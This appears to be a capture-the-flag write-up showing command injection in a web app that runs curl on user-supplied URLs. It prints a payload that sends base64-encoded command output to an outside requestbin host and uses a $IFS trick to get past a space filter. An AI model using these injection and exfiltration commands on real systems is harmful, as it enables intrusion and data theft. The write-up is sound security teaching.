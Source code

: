 ```text
- Automatically converts links into a hyperlink.
- Try setting any URL in the Content, and see it!!
  NOTE: For some dumb reason, link-sharing was not allowed since day 1.
  But due to requests from the users, we made it available for it. But
  you still cannot share links, so this application clones the URL
  locally (using curlY "ree--quest-TOR")\*, then returns it to you
  from the application itself.

---

\*pronounced "curly requester"
```

So in my head, I thought it as of curl https://site being executed whenever HTTP/https word is used. So the next step was to get code execution.

At first, I tried common bypasses like && || but since the output was not being shown, I was not sure if the command was being executed.

So I thought of another approach to send command output to a URL. I quickly set up a request bin URL and crafted my payload using command substitution like

http://requestbin.net/r/1bvgn5b1/?output=$(command|base64) So what this will look like

```curl
curl http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)
```

\$(command|base64) get executed and base64 output would be appended to output =
curl http://requestbin.net/r/1bvgn5b1/?output=base64output
And through http://requestbin.net/r/1bvgn5b1?inspect I could view the requests being made to the site.

Now that we have command execution with proper output. It was time to find the flag. Actually using space in command was blocked. So I had to use \$IFS instead of every command that contains space.

For example: $(ls -la) became $(ls\$IFS-la).

I looked around and found a file named zhululu_2e3817293fc275dbee74bd71ce6eb056_FLAG_4e4d6c332b6fe62a63afe56171fd3725.txt which contained the flag.

Then I read the file using $(base64$IFS-w$IFS\0$IFS/zh\*)

> Sidenote
> There is \ before 0 because $IFS0 would simply escape 0 it is behaviour of $IFS to escape suffix if there is no use of symbols like -, | etc.

On the request bin inspect tab I recieved

Q29uZ3JhdHMhISBZb3UgbWFkZSB0aWxsIHRoZSBmbGFnIPCfjokKCgpHcmFiIGl0LCBpdCdzIGJlbG93OgpoYWNrdG9iZXJmZXN0X2N0ZntzaGVsbF9rZWtfcmljZV9mYmY4NjE5ZmY3ZjE1NjEzOWNkYWY0ZDdlM2UwNmQ3NX0K

Decoding the base64 we get

```text
Congrats!! You made till the flag 🎉
Grab it, it's below:
hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
```
